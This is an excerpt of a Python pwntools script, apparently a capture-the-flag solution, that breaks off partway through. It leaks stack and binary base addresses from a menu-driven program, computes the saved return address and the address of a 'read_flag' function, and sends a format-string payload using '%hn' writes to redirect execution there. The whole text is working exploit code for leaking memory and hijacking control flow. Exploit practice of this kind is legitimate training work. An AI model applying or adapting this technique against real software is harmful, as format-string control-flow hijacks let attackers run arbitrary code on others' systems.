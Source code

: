 ```python
recv_input()
p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
p.sendline('1')
recv_input()

p.sendline('1')
p.recvuntil('\'')
addrs = p.recvuntil('\'')[:-1]
addrs = [int(x,16) for x in addrs.split(b'.') if x not in b'']

p.sendline("")
recv_input()


p.sendline("")
p.sendline("0")
recv_input()
p.sendline("31337")
recv_input()


ebp = addrs[0] + 0x1b4
# ebp = 0xffffdb18
program_base = addrs[1] - 0xb203
# program_base = 0x56555000
saved_eip = ebp + 4
read_flag = program_base + e.symbols['_Z9read_flagv']
# print([hex(x) for x in addrs])
print("ebp: ", hex(ebp) )
print("program_base: ", hex(program_base))
print("read_flag: ", hex(read_flag & 0xfff))

# writing time

p.sendline('2')
recv_input()

# creating user to leak esp

base = '%{}$hn'.format(333)

pad = "%{}x".format((read_flag & 0xffff) - 0x15)
p.sendline(pad + base)
recv_input()
p.sendline('1')
recv_input()
p.sendline('2')
recv_input()
p.sendline('2')
recv_input()


# log in
p.sendline('1')
recv_input()
p.sendline('2')
recv_input()
p.sendline('2')
recv_input()

# create account 1
```